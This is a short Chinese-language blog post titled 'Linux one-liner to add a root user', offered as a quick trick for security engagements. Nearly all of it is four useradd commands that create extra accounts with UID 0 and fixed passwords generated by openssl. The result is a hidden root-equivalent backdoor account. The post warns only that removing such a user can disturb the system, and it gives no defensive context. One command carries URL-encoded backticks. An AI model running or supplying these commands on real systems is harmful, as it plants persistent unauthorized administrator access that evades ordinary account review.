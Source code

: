 ```yaml
---

layout:     post
title:      linux一句话加root用户
subtitle:   网络安全实施过程中快速添加root用户
date:       2023-12-18
author:     Robin
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Note
    - Linux
    - Information security

---
```


linux一句话加root用户：

快速添加root用户
=注意=：添加的用户与root相同uid，对本用户的kick操作等同于kick掉root，可能会造成系统故障

```shell
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 ducmi` ducmi
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 t` t
或者（因不同版本命令有差别）
useradd -M  -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 test` test
或者
useradd -M -u 0 -g 0 -o -s /bin/bash -p %60openssl passwd -1 -salt 123 ducmi1%60 ducmi1
```


